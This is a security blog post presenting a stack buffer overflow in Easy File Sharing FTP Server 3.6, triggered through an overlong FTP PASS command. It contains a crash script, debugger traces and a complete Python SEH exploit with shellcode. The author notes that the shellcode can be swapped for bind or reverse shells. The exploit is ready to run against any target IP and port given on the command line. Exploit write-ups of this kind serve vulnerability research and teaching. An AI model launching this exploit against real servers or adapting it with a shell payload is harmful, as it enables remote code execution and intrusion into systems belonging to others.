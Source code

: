 ```yaml
---
layout: post
title:  "Easy File Sharing FTP Server 3.6 - Stack Buffer Overflow"
date:   2018-09-19 03:39:03 +0700
tags:
    - exploit
    - vulnerability 
---
```



Vulnerability Analysis
----------------------
To trigger the vulnerability, we need to send buffer more than 3000 bytes. Vulnerable part is the **PASS** input. 
```
  reqftp += "A" * 3000
  ... code cut here ...
  s.send("PASS " + reqftp + "\r\n")
```  

Example trigger overflow:
```
  import socket, sys

  if len(sys.argv) <= 1:
    print "Usage: poc.py <target_ip> <target_port>"
    exit(1)
  ip = sys.argv[1]
  port = int(sys.argv[2])
  
  reqftp = "\x2c" + "A" * 3000
  reqftp += "\x42"*30

  s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
  s.connect((ip, port))
  s.recv(1024)
  s.send("USER anonymous\r\n")
  s.recv(1024)
  s.send("PASS " + reqftp + "\r\n")
  s.recv(1024)
  s.close()
```

However, before sending the buffer to **PASS** input, we need to escaped a character by using **\x2c**, example below. 
Further info, https://www.cleo.com/support/byproduct/lexicom/usersguide/ftp_configuration.htm. 
```
  reqftp = "\x2c" + "A" * 3000
```
Upon overflowing, it will stop here at this function: 
```
0046C18C  /$ 56             PUSH ESI
0046C18D  |. 57             PUSH EDI
0046C18E  |. 8B7C24 0C      MOV EDI,DWORD PTR SS:[ESP+C]
0046C192  |. 8BF1           MOV ESI,ECX
0046C194  |. 8B0E           MOV ECX,DWORD PTR DS:[ESI]
0046C196  |. 8B07           MOV EAX,DWORD PTR DS:[EDI]
0046C198  |. 3BC8           CMP ECX,EAX
0046C19A  |. 74 39          JE SHORT fsfs.0046C1D5
0046C19C  |. 8379 F4 00     CMP DWORD PTR DS:[ECX-C],0
0046C1A0  |. 7D 0B          JGE SHORT fsfs.0046C1AD
0046C1A2  |. 83C1 F4        ADD ECX,-0C
0046C1A5  |. 3B0D 78A04900  CMP ECX,DWORD PTR DS:[49A078]            ;  fsfs.0049A07C
0046C1AB  |. 75 06          JNZ SHORT fsfs.0046C1B3
0046C1AD  |> 8378 F4 00     CMP DWORD PTR DS:[EAX-C],0    <--- EIP 
```
Continuing the execution by pressing **Shift + F9** (Immunity Debugger) will overwrite the EIP, e.g. 
```
Register
EAX 00000000
ECX 41414141
EDX 777771CD ntdll.777771CD
EBX 00000000
ESP 04279D18
EBP 04279D38
ESI 00000000
EDI 00000000
EIP 41414141
```

Proof-of-Concept (fully working SEH exploit)
```
  # Crafted for fun and polishing skillz!
  import sys, socket, struct

  if len(sys.argv) <= 1:
    print "\nEasy File Sharing FTP Server 3.6 Stack Overflow - @zeifan"
    print "\nUsage: poc.py <target_ip> <port>\n"
    exit()
  ip = sys.argv[1]
  port = int(sys.argv[2])  
  
  # Shellcode can be change to any (bind, reverse, etc.)
  # Hello World MessageBoxW Shellcode
  # https://www.exploit-db.com/exploits/37758/
  shellcode = ("\x33\xc9\x64\x8b\x49\x30\x8b\x49\x0c\x8b" +
    "\x49\x1c\x8b\x59\x08\x8b\x41\x20\x8b\x09" +
    "\x80\x78\x0c\x33\x75\xf2\x8b\xeb\x03\x6d" +
    "\x3c\x8b\x6d\x78\x03\xeb\x8b\x45\x20\x03" +
    "\xc3\x33\xd2\x8b\x34\x90\x03\xf3\x42\x81" +
    "\x3e\x47\x65\x74\x50\x75\xf2\x81\x7e\x04" +
    "\x72\x6f\x63\x41\x75\xe9\x8b\x75\x24\x03" +
    "\xf3\x66\x8b\x14\x56\x8b\x75\x1c\x03\xf3" +
    "\x8b\x74\x96\xfc\x03\xf3\x33\xff\x57\x68" +
    "\x61\x72\x79\x41\x68\x4c\x69\x62\x72\x68" +
    "\x4c\x6f\x61\x64\x54\x53\xff\xd6\x33\xc9" +
    "\x57\x66\xb9\x33\x32\x51\x68\x75\x73\x65" +
    "\x72\x54\xff\xd0\x57\x68\x6f\x78\x41\x01" +
    "\xfe\x4c\x24\x03\x68\x61\x67\x65\x42\x68" +
    "\x4d\x65\x73\x73\x54\x50\xff\xd6\x57\x68" +
    "\x72\x6c\x64\x21\x68\x6f\x20\x57\x6f\x68" +
    "\x48\x65\x6c\x6c\x8b\xcc\x57\x57\x51\x57" +
    "\xff\xd0\x57\x68\x65\x73\x73\x01\xfe\x4c" +
    "\x24\x03\x68\x50\x72\x6f\x63\x68\x45\x78" +
    "\x69\x74\x54\x53\xff\xd6\x57\xff\xd0"
  )

  # Escaped character + Buffer 
  reqftp = "\x2c" + "\x41" * 2559

  # 16 bytes SEH
  reqftp += "\xeb\x10\x90\x90"  
  
  # 0x100182d3 : {pivot 8 / 0x08}
  # POP EBP 
  # MOV EAX,1 
  # POP EBX 
  # RETN
  reqftp += struct.pack("<I", 0x100182d3) 
  reqftp += "\x42" * 100
  reqftp += shellcode

  s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
  s.connect((ip, port))
  print "\nMessageBox will pop up!"
  s.recv(1024)
  s.send("USER anonymous\r\n")
  s.recv(1024)
  s.send("PASS " + reqftp + "\r\n")
  s.recv(1024)
  s.close()
```
  
**This type of exploit can be crafted within hour**
